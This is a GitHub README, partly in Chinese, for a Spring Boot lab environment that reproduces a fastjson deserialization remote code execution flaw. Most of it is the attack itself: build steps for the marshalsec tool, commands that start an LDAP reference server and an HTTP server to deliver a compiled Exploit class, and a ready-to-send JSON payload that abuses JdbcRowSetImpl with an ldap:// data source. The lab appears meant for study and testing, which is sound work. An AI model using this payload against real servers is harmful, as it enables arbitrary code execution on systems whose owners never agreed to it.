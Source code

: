 # fastjson-rce
![](https://img.shields.io/badge/language-java-yellow)
![](https://img.shields.io/github/stars/dbgee/fastjson-rce)
![](https://img.shields.io/github/workflow/status/dbgee/fastjson-rce/Maven%20Package)

fastjson rce env based on springboot

## 环境说明
* Exploit.java  编译好的class 文件文件和利用工具在Exploit 目录下

* 利用工具也可以自行下载编译
  ```shell script
    git clone https://github.com/mbechler/marshalsec.git [克隆项目到本地]
    mvn clean package -DskipTests  [这条命令执行完之后会在target 目录生成我们需要的可执行文件：marshalsec-0.0.3-SNAPSHOT-all.jar]
  ```

## 使用步骤
* java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#Exploit 10086 
* python -m http.server 8081
* 发送利用payload：{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://127.0.0.1:10086/Object","autoCommit": true}

## update info
通过H2 数据库，对数据做了持久化处理，可以保存提交的数据到服务端

## 参考文章
* https://mp.weixin.qq.com/s?__biz=MzIyNDcwODgwMA==&mid=2247484165&idx=1&sn=7777807338909931f887108d647d0c32&chksm=e80b92aadf7c1bbc32fb273fe7e18bb4baaccc416d0c1dd7accf31091d4d89fddcb7bd140d2e&token=2026528112&lang=zh_CN#rd
